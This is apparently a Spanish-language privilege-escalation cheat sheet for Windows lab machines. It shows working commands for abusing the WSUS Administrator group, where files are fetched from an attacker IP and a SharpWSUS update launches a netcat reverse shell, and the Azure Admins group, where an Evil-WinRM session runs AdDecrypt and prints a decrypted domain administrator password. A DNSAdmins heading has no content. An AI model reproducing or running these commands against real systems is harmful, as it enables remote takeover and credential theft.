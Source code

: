 # privesc

# Privesc

## Abuso del grupo WSUS Administrator

### Archivos necesarios

```
iwr -uri http://10.10.14.2/SharpWSUS.exe -o SharpWSUS.exe
iwr -uri http://10.10.14.2/PsExec64.exe -o PsExec64.exe
iwr -uri http://10.10.14.2/nc.exe -o nc.exe
```

### Reverse Shell

```
.\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\Temp\Privesc\\nc.exe -e cmd 10.10.14.2 443" /title:"ReverseShell"
```

## Abuso del grupo Azure Admins

```
*Evil-WinRM* PS C:\Temp> iwr -uri http://10.10.16.9/AdDecrypt.exe -o AdDecrypt.exe
*Evil-WinRM* PS C:\Temp> iwr -uri http://10.10.16.9/mcrypt.dll -o mcrypt.dll
*Evil-WinRM* PS C:\> cd "C:\Program Files\Microsoft Azure AD Sync\bin"
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\bin> C:\Temp\AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

## Abuso del grupo DNSAdmins
